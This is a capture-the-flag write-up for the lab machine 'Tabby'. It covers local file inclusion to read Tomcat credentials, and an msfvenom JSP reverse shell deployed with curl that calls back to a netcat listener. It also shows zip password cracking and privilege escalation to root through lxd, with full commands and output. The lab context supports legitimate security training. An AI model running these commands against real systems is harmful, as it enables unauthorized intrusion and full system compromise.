









# Tabby



Tabby is a medium box that involved using LFI to find Tomcat credentials, then using these credentials to upload a reverse shell. To get user, we brute forced a password on a backup zip file and using this password to switch user and get the user flag. Then using lxd to privilege escalate to root.

# Overview
- Enumeration of the target
- Using LFI to find credentials
- Using the credentials to upload a reverse shell
- Discovering the backup zip file and cracking the password
- Using the password to switch to ash
- user.txt
- Using lxd to privilege escalate
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/tabby$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.194
Host is up (0.054s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

We can see ssh, a website, and an Apache Tomcat interface on port 8080. Let's start by enumerating the website.



Looking around we find a news page on the navigation bar, if we click on it, it takes us to `http://megahosting.htb/news.php?file=statement`. If we add `megahosting.htb` to our /etc/hosts file, we can see what's on the page.



We can do an LFI attack on this page to read various files on the target. For example to read /etc/passwd:



After doing some research, we find that apache tomcat credentials are stored in `/usr/share/tomcat9/etc/tomcat-users.xml`. If we read this file and view the source, we can find the password: `$3cureP4s5w0rd123!`.



# Exploitation

## Getting a shell

Now we can upload and execute a java reverse shell.

First, we need to create the shell, I used `msfvenom`.

```bash
finlay@kali:~/htb/tabby$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war > shell.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

Second, we can upload the shell with `curl`

```bash
finlay@kali:~/htb/tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
OK - Deployed application at context path [/shell]
```

Then, we can set up a listener on the port we specified earlier.

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, we get the target to execute our shell:

```bash
finlay@kali:~/htb/tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/shell/
```

And we see that we get a shell on our listener:



## Getting user

If we search around on the box, we find a file called `16162020_backup.zip`. I transferred it back to my box using netcat to take a closer look.

If we try to unzip it, it requires a password. We can crack this password with `fcrackzip`.

```bash
finlay@kali:~/htb/tabby$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
possible pw found: admin@it ()
```

After unzipping the file with this password, we don't find anything interesting, but we can try using this password to switch to the ash user.



## User.txt

It worked! Now we can find the user flag in /home/ash



# Privilege Escalation

To learn how to get root, [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2) article was very helpful.

First, we need to build an lxd image locally.

```bash
finlay@kali:~/htb/tabby$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 221.00 KiB/s, done.
finlay@kali:~/htb/tabby$ cd lxd-alpine-builder/
finlay@kali:~/htb/tabby/lxd-alpine-builder$ ls
build-alpine  LICENSE  README.md
finlay@kali:~/htb/tabby/lxd-alpine-builder$ sudo bash build-alpine
...
finlay@kali:~/htb/tabby/lxd-alpine-builder$ ls
alpine-v3.12-x86_64-20201105_1332.tar.gz  build-alpine  LICENSE  README.md
```

Now we need to transfer to `.tar.gz` file to the target, I did this with a python http server.

Second, we need to import the image:

```bash
ash@tabby:/tmp/tmp$ lxc image import ./alpine-v3.12-x86_64-20201105_1332.tar.gz --alias myimage
Image imported with fingerprint: 1df12bda1e3adf92657618cd3b2e0e4667d544e342226004aaca19705209ed60
```

Third, we need to run the image:

```bash
ash@tabby:/tmp/tmp$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
```

Then, we can mount /root into the image:

```bash
ash@tabby:/tmp/tmp$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
```

Finally, we can interact with the container:

```bash
ash@tabby:/tmp/tmp$ lxc start mycontainer
ash@tabby:/tmp/tmp$ lxc exec mycontainer /bin/sh
~ # whoami
root
```

## Root.txt

And we find the root flag in /mnt/root/root


